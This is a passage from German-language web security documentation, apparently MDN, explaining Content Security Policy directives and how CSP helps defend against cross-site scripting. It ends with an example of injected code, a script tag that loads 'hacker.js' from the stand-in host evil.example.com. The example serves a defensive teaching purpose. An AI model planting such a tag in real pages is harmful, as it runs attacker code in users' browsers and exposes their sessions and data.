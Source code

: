 Betrachten Sie zum Beispiel die folgende CSP:

```http
Content-Security-Policy: default-src 'self'; img-src 'self' example.com
```

Sie setzt zwei Direktiven fest:

- die `default-src` Direktive ist auf `'self'` gesetzt
- die `img-src` Direktive ist auf `'self' example.com` gesetzt.

![Eine CSP, unterteilt in ihre Direktiven.](csp-overview.svg)

Die erste Direktive, `default-src`, sagt dem Browser, nur Ressourcen zu laden, die sich am selben Ursprung wie das Dokument befinden, es sei denn, andere spezifischere Direktiven setzen eine andere Richtlinie für andere Ressourcentypen. Die zweite, `img-src`, sagt dem Browser, Bilder zu laden, die entweder vom selben Ursprung sind oder von `example.com` bereitgestellt werden.

Im nächsten Abschnitt werden wir uns die Werkzeuge ansehen, die zur Kontrolle von Ressourcennetzladungen zur Verfügung stehen, was die Hauptfunktion einer CSP ist.

## Kontrolle des Ressourcenladens

Eine CSP kann verwendet werden, um die Ressourcen zu kontrollieren, die ein Dokument laden darf. Dies wird in erster Linie zum Schutz vor Cross-Site-Scripting (XSS)-Angriffen genutzt.

In diesem Abschnitt sehen wir zuerst, wie die Kontrolle des Ressourcenladens helfen kann, sich gegen XSS zu schützen, dann die Werkzeuge, die CSP bereitstellt, um zu kontrollieren, welche Ressourcen geladen werden. Schließlich beschreiben wir eine besondere empfohlene Strategie, die als "Strikte CSP" bezeichnet wird.

### XSS und Ressourcenladen

Ein Cross-Site-Scripting (XSS)-Angriff ist einer, bei dem ein Angreifer in der Lage ist, seinen Code im Kontext der Zielwebsite auszuführen. Dieser Code kann dann alles tun, was der eigene Code der Website tun könnte, einschließlich, zum Beispiel:

- Zugreifen oder Ändern des Inhalts der geladenen Seiten der Website
- Zugreifen oder Ändern von Inhalten im lokalen Speicher
- HTTP-Anfragen mit den Anmeldeinformationen des Benutzers erstellen, was ihnen ermöglicht, den Benutzer zu imitieren oder auf sensible Daten zuzugreifen

Ein XSS-Angriff ist möglich, wenn eine Website einige Eingaben akzeptiert, die von einem Angreifer erstellt wurden (zum Beispiel URL-Parameter oder ein Kommentar zu einem Blogbeitrag) und diese dann in die Seite einfügt, ohne sie _zu bereinigen_: Das heißt, ohne sicherzustellen, dass sie nicht als JavaScript ausgeführt werden können.

Websites sollten sich gegen XSS schützen, indem sie diese Eingaben bereinigen, bevor sie in die Seite aufgenommen werden. Eine CSP bietet einen ergänzenden Schutz, der die Website auch dann schützen kann, wenn die Bereinigung fehlschlägt.

Wenn die Bereinigung fehlschlägt, gibt es verschiedene Formen, die der injizierte bösartige Code im Dokument annehmen kann, darunter:

- Ein {{htmlelement("script")}} Tag, das auf eine bösartige Quelle verweist:

  ```html
  <script src="https://evil.example.com/hacker.js"></script>
  ```
